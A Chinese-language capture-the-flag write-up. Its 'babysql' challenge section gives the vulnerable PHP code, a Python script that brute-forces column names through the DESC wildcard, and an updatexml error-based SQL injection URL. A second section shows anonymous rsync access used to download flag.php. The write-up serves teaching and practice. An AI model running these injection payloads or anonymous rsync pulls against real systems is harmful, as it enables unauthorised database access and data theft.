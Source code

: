 
## babysql

这道题到最后也没做出来，报错注入注，过滤了`union`和`column_name`还有`*`，不知道字段名是啥

参考了[http://www.wupco.cn/?p=3764](http://www.wupco.cn/?p=3764)  
从该文章中可以得知这道注入题的核心代码如下
```php
$sql = "desc `error_{$table}`";
$res = mysql_query($sql);
if(empty(mysql_fetch_array($res))){
    echo "<center>no table detail</center>";
    die();
}

$sql = "select * from error_${table} where id = $id";
```
可以看出通过`desc`语句判断table是否存在，再执行下一个sql语句  
DESC的语法如下  
```
DESC tbl_name [col_name | wild]
```
构造payload如下  
```
http://114.55.36.69:20680/index.php?table=flag` `a%&id=3
```
python脚本如下
```python
#!/usr/bin/env
# -*- coding: utf-8 -*-
import requests as r
r1=r.session()
s="abcdefghijklmnopqrstuvwxyz1234567890_"
flag=""
for i in range(50):
  url="http://114.55.36.69:20680/index.php?table=flag` `{0}%&id=3"
  for j in s:
    url2=url.format(str(flag+j))
    r2=r1.get(url2)
    if "SQL" in r2.text:
      flag+=j
      print flag
      break
```
得到`error_flag`表的字段名为`flag_you_will_never_know`  
再使用报错注入查询即可拿到flag  
```
http://114.55.36.69:20680/index.php?table=news&id=3 -updatexml(1,concat('a=.',(select flag_you_will_never_know from error_flag)),1)#
```

## 服务发现
nmap扫描后发现`rsync`开放
rsync空口令
```bash
[root@test ~]# rsync 118.178.18.181::
source code   
[root@test ~]# rsync 118.178.18.181::source\ code/
drwxr-xr-x        4096 2017/06/14 13:01:20 .
-rw-r--r--          44 2017/06/14 13:01:20 flag.php
-rw-r--r--          26 2017/06/14 13:01:20 index.php
[root@test ~]# rsync -azv 118.178.18.181::source\ code/flag.php ~/flag.txt
receiving incremental file list

sent 19 bytes  received 41 bytes  120.00 bytes/sec
```
